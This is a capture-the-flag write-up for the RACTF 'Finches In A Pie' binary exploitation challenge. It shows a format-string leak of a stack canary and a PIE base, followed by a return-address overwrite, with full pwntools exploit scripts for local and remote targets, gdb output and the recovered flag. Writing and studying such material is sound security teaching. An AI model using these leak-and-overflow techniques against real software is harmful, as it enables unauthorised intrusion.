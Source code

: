 # Finches In A Pie

This challenge is very similiar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link: [Finches in a Stack](finches-in-a-stack.md)

### Protections

First, let's check the protections that this binary has using checksec:

```text
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes
* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

### Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

### Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address Lets load up gdb and have a look at the functions:

```text
0x00001209  flag
```

So now we have the offset of `flag`. Let's run it with a breakpoint at say\_hi \(as that's where input is taken\):

```text
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```

Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:

```text
gdb-peda$ 
0x56559000!
```

Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:

```text
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```

And using our offset from before

> 0x00001209 We will take the offset away from the flag address, to find the base:
>
> ```text
> gdb-peda$ p/x 0x56556209 - 0x1209
> $2 = 0x56555000
> ```
>
> So that's our base address, now we do:
>
> ```text
> gdb-peda$ p/x 0x56559000 - 0x56555000
> $3 = 0x4000
> ```
>
> To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

### Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:

```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
    io.recvline()

io.sendline("-%11$p-%12$p-")        # Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000    # Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209    # Base + Flag offset

payload = b"a" * 25        # Pads upto canary
payload += p32(canary)        # Overwrites canary
payload += b'bbbbccccdddd'     # Pads upto return address
payload += p32(flag)        # Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

### Transferring to remote

Transferring to remote is very simple once again:

```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
    io.recvline()

io.sendline("-%11$p-%12$p-")        # %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000    # Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25        # Pads upto canary
payload += p32(canary)        # Overwrites canary
payload += b'bbbbccccdddd'     # Pads upto return address
payload += p32(flag)        # Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

Let's now run it:

```text
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$
```

Challenge done!

**ractf{B4k1ng\_4\_p1E!}**

